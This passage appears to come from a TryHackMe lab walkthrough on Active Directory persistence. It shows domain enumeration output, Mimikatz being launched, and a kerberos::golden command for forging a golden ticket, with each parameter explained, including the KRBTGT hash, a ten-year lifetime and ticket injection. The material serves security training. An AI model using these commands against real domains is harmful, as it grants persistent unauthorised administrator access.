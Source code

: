```markup
NetBIOSName                        : ZA
ObjectClass                        : domainDNS
ObjectGUID                         : 1fc9e299-da51-4d03-baa0-862c3360c0b2
ParentDomain                       : tryhackme.loc
PDCEmulator                        : THMDC.za.tryhackme.loc
PublicKeyRequiredPasswordRolling   :
QuotasContainer                    : CN=NTDS Quotas,DC=za,DC=tryhackme,DC=loc
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {THMDC.za.tryhackme.loc}
RIDMaster                          : THMDC.za.tryhackme.loc
SubordinateReferences              : {DC=DomainDnsZones,DC=za,DC=tryhackme,DC=loc}
SystemsContainer                   : CN=System,DC=za,DC=tryhackme,DC=loc
UsersContainer                     : CN=Users,DC=za,DC=tryhackme,DC=loc
```

Now that we have all the required information, we can relaunch Mimikatz:

```markup
za\aaron.jones@THMWRK1 C:\Users\Administrator.ZA>C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/ 

mimikatz #
```

Once Mimikatz is loaded, perform the following to generate a golden ticket:

```markup
mimikatz # kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID>
```

Parameters explained:

* **/admin** - The username we want to impersonate. This does not have to be a valid user.
* **/domain** - The FQDN of the domain we want to generate the ticket for.
* **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
* **/sid** -The SID of the domain we want to generate the ticket for.
* **/krbtgt** -The NTLM hash of the KRBTGT account.
* **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
* **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
* **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.

We can verify that the golden ticket is working by running the dir command against the domain controller:

